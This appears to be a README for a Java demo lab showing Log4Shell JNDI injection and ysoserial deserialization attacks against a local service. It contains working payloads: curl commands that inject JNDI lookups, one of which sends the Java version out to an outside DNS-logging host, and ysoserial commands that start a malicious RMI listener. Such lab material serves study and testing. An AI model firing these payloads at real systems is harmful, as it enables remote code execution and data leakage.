

# java-serialization-vuln-demo

## Payloads
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md)
- [https://dnslog.org/](https://dnslog.org/)


```bash
curl -X POST -d "payload=1" http://127.0.0.1:7070/api/log4j

curl -X POST -d "payload=${jndi:ldap://${sys:java.version}.b0aa7f99.dnslog.biz/a}" http://127.0.0.1:7070/api/log4j
```

## Direct Deserialization Demo

| JRE/JDK                        | RMI             | LDAP            | Direct Deserialization*(3) |
|--------------------------------| --------------- | --------------- | -------------------------- |
| < 8u121, 7u131, 6u141          | Exploitable     | Exploitable     | Exploitable                |
| < 11.0.1, 8u191, 7u201, 6u211  | Exploitable*(1) | Exploitable     | Exploitable                |
| >= 11.0.1, 8u191, 7u201, 6u211 | Exploitable*(1) | Exploitable*(2) | Exploitable                |


(1) - Only if com.sun.jndi.rmi.object.trustURLCodebase=true

(2) - Only if com.sun.jndi.ldap.object.trustURLCodebase=true

(3) - Depends on the target classpath.

### Add gadget to ysoserial
- [https://github.com/qweraqq/ysoserial/tree/custom-gadget-demo](https://github.com/qweraqq/ysoserial/tree/custom-gadget-demo)
- [c806dd36660889a2e99d096f3f394494cf648cd6](https://github.com/qweraqq/ysoserial/commit/c806dd36660889a2e99d096f3f394494cf648cd6)

### Start Server
```bash
# use java8
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CustomGadgetDemo calc | xxd

java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 3000 CustomGadgetDemo "calc"

```

### Payload
```bash
curl -X POST -d "payload=${jndi:rmi://127.0.0.1:3000/aaa}" http://127.0.0.1:7070/api/log4j
```


